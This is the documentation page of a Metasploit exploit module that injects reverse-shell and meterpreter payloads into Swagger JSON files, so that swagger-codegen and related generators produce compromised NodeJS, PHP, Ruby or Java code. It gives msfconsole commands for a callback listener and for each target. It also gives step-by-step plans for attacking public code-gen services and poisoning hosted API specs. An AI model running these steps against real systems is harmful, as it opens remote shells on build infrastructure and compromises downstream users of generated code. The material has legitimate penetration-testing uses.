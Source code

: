 The [Swagger CodeGen parameter injector module](../../../../../modules/exploits/multi/fileformat/swagger_param_inject.rb) generates a Swagger JSON file with embedded Metasploit payloads.

In the typical case, a Swagger document defines an API.  Swagger can be automatically consumed to generate client/server code, testing and scaffolding in APIs by companies eager to provide value to the increasing need for scalable API deployment and testing.

Currently, this module supports 4 languages for delivery: NodeJS, PHP, Ruby, and Java.  These are specified by the PAYLOAD set for the exploit module.


## Verification Steps

All exploits assume a bind or reverse-tcp callback handler, with preference on reverse-tcp. 

1. Start msfconsole
2. Start a callback handler listening for a the appropriate payload (e.g.)

```
use exploit/multi/handler  
set PAYLOAD nodejs/shell_reverse_tcp

set LHOST 192.168.68.138 
set LPORT 4444

run 
```
3. Pick a target 

## Targets

**NodeJS** 

This attack injects a payload into javascript by terminating a URL path string.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 0
set PAYLOAD nodejs/shell_reverse_tcp
set INFO_VERSION "1.0.0"
set SWAGGER_HOST "localhost"
run 
```

**PHP** 

This attack injects a payload into PHP multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 1
set PAYLOAD php/meterpreter/reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**ruby** 

This attack injects a payload into ruby multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 3
set PAYLOAD ruby/shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**Java** 

This attack injects a payload into Java by terminating a URL path string.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 2
set PAYLOAD java/jsp_shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

## Quick Test

Use the online [editor.swagger.io](http://editor.swagger.io) to upload your swagger document, and generate pre-built code bases from the document.  The swagger editor leverages [generator.swagger.io](http://generator.swagger.io) to build these clients & servers automatically from the document, and published downloadable artifacts of these code bases.


## Scenarios

Effective against services with either these dependencies

*  [swagger-codegen](https://github.com/swagger-api/swagger-codegen)
  * public API [generator.swagger.io](http://generator.swagger.io/)
  * public docker container [swagger-generator/](https://hub.docker.com/r/swaggerapi/swagger-generator/)
* [swagger-test-templates](https://github.com/apigee-127/swagger-test-templates)

**Possible Attack approach.**

1. Research the target environment and component dependencies.  
2. Setup appropriate payload callback listener.
3. generate the appropriate swagger document with associated MS payload (see above for examples)


**Against a webservice (2nd order attack / blind code-gen)**

*Who knows what insecurely configured code-gen Docker containers hosted in data compute or API broker cluster could do if given the chance...*
 
4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

**Against a code repository or public hosting of spec**

*People and Robots trust swagger to build clients, servers, mocks, and more.  Publicly hosted specs should be verified as to not corrupt automatic code generation.*

4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

